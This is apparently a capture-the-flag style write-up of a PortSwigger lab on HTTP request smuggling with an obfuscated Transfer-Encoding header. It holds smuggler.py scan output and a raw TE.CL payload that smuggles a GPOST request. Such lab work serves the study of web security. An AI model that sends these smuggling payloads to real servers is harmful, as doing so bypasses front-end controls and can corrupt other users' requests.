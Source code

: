 # [Lab: HTTP request smuggling, obfuscating the TE header](https://portswigger.net/web-security/request-smuggling/lab-obfuscating-te-header)

## Lab

This lab involves a front-end and back-end server, and the two servers handle duplicate HTTP request headers in different ways. The front-end server rejects requests that aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`.

## Detect TE.CL

- smuggler.py: fail

```bash
┌──(kali㉿kali)-[~/Documents/tools]
└─$ python smuggler/smuggler.py -u https://0a5500e30496a14ac5b52d97002f0014.web-security-academy.net/                                      

  ______                         _                                                                                                                                                                                                         
 / _____)                       | |                                                                                                                                                                                                        
( (____  ____  _   _  ____  ____| | _____  ____                                                                                                                                                                                            
 \____ \|    \| | | |/ _  |/ _  | || ___ |/ ___)                                                                                                                                                                                           
 _____) ) | | | |_| ( (_| ( (_| | || ____| |                                                                                                                                                                                               
(______/|_|_|_|____/ \___ |\___ |\_)_____)_|                                                                                                                                                                                               
                    (_____(_____|                                                                                                                                                                                                          
                                                                                                                                                                                                                                           
     @defparam                         v1.1                                                                                                                                                                                                
                                                                                                                                                                                                                                           
[+] URL        : https://0a5500e30496a14ac5b52d97002f0014.web-security-academy.net/
[+] Method     : POST
[+] Endpoint   : /
[+] Configfile : default.py
[+] Timeout    : 5.0 seconds
[+] Cookies    : 1 (Appending to the attack)
[nameprefix1]  : OK (TECL: 0.91 - 200) (CLTE: 0.99 - 200)                                           
[tabprefix1]   : OK (TECL: 0.91 - 200) (CLTE: 0.94 - 200)                                                                                                                                                                                  
[tabprefix2]   : OK (TECL: 0.89 - 200) (CLTE: 0.94 - 200)                                                               ...          
[endspacexn-ff]: OK (TECL: 1.05 - 400) (CLTE: 0.94 - 400)
┌──(kali㉿kali)-[~/Documents/tools]
└─$
```

- burpsuite `HTTP request smuggler` extension:

![detect.png](./../img/lab-3-extension-detect.png)

## Solutions

```http
POST / HTTP/1.1^M$
Host: 0a5500e30496a14ac5b52d97002f0014.web-security-academy.net^M$
Content-Type: application/x-www-form-urlencoded^M$
Content-Length: 4^M$
Transfer-Encoding: chunked^M$
Transfer-encoding: identity^M$
^M$
29^M$
GPOST / HTTP/1.1^M$
Content-Length: 20^M$
^M$
X^M$
0^M$
^M$
```

backend:

  ```http
  POST / HTTP/1.1^M$
  Host: 0a5500e30496a14ac5b52d97002f0014.web-security-academy.net^M$
  Content-Type: application/x-www-form-urlencoded^M$
  Content-Length: 4^M$
  Transfer-Encoding: chunked^M$
  Transfer-encoding: identity^M$
  ^M$
  29^M$
  ```

  ```http
  GPOST / HTTP/1.1^M$
  Content-Length: 20^M$
  ^M$
  X^M$
  0^M$
  ^M$
  ```
